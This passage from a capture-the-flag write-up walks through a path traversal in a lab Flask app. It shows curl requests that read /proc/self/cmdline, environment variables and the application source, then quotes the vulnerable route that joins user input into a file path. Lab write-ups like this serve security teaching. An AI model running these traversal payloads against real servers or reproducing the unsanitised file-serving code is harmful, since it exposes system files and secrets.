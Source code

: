     
    
    oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../proc/self/cmdline | tr '\000' ' '
    python3 /home/developer/app/app.py 
    

I can also get the environment variables from `environ` (this time replacing
null with newline):

    
    
    oxdf@hacky$ curl -s http://bagel.htb:8000/?page=../../../../proc/self/environ -o- | tr '\000' '\n'
    LANG=en_US.UTF-8
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
    HOME=/home/developer
    LOGNAME=developer
    USER=developer
    SHELL=/bin/bash
    INVOCATION_ID=3f19c33fc85b4cc0aa821a93d7deb345
    JOURNAL_STREAM=8:25240
    SYSTEMD_EXEC_PID=892
    

The process is running as developer (which makes sense as it’s running out of
developer’s home directory).

I can also use the command line to get the path to the source:

    
    
    oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
    from flask import Flask, request, send_file, redirect, Response
    import os.path
    ...[snip]...
    

### Source Code Analysis

`app.py` is a simple single-file Flask application. It starts by importing
libraries and initializing the Flask application:

    
    
    from flask import Flask, request, send_file, redirect, Response
    import os.path
    import websocket,json
    
    app = Flask(__name__)
    

`websocket` is an interesting import.

There are two routes defined. `index` is the main page:

    
    
    @app.route('/')
    def index():
            if 'page' in request.args:
                page = 'static/'+request.args.get('page')
                if os.path.isfile(page):
                    resp=send_file(page)
                    resp.direct_passthrough = False
                    if os.path.getsize(page) == 0:
                        resp.headers["Content-Length"]=str(len(resp.get_data()))
                    return resp
                else:
                    return "File not found"
            else:
                    return redirect('http://bagel.htb:8000/?page=index.html', code=302)
    
